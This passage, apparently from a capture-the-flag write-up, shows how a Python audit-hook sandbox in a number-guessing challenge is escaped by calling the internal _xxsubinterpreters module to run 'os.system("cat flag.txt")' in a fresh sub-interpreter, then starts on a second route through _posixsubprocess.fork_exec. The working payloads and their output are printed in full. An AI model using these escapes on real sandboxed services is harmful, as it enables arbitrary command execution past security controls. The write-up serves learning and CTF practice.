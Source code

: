 But how about the `shared` parameter? Reading a little bit more the source code ([[L2180](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L2180), [L2203](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L2203), [L1929](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L1929), [L129](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L120), [L2234](https://github.com/python/cpython/blob/3.10/Modules/_xxsubinterpretersmodule.c#L2234))], we infer that the `shared` parameter is to share python variables across sub-interpreters. Let's try using this API:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 2256132424220
Raised event: builtins.input
__import__('_xxsubinterpreters').run_string(__import__('_xxsubinterpreters').create(), 'print("Hello World!")', None)
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: import
Raised event: import
Raised event: cpython.PyInterpreterState_New
Hello World!
Evaluated data:
None
Guess game end!!!
```

As we can see, it works! Let's use this approach and throw our payload to the remote to dump the flag:

```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
__import__('_xxsubinterpreters').run_string(__import__('_xxsubinterpreters').create(), 'import os; os.system("cat flag.txt")', None)
flag{c0ool_y0u_ArE_aN_SuPer_GuE33eR_M@n!}
Guess game end!!!
```

And we get the flag! `flag{c0ool_y0u_ArE_aN_SuPer_GuE33eR_M@n!}`

### Using `_posixsubprocess`

Similarly to the above solution, we can also use the internal module [`_posixsubprocess`](https://github.com/python/cpython/blob/3.10/Modules/_posixsubprocess.c#L1088). The only exported function in this module is [`fork_exec`](https://github.com/python/cpython/blob/3.10/Modules/_posixsubprocess.c#L1079):

```bash
In [1]: import _posixsubprocess

In [2]: _posixsubprocess.fork_exec?
Docstring:
fork_exec(args, executable_list, close_fds, pass_fds, cwd, env,
          p2cread, p2cwrite, c2pread, c2pwrite,
          errread, errwrite, errpipe_read, errpipe_write,
          restore_signals, call_setsid,
          gid, groups_list, uid,
          preexec_fn)

Forks a child process, closes parent file descriptors as appropriate in the
child and dups the few that are needed before calling exec() in the child
process.

If close_fds is true, close file descriptors 3 and higher, except those listed
in the sorted tuple pass_fds.

```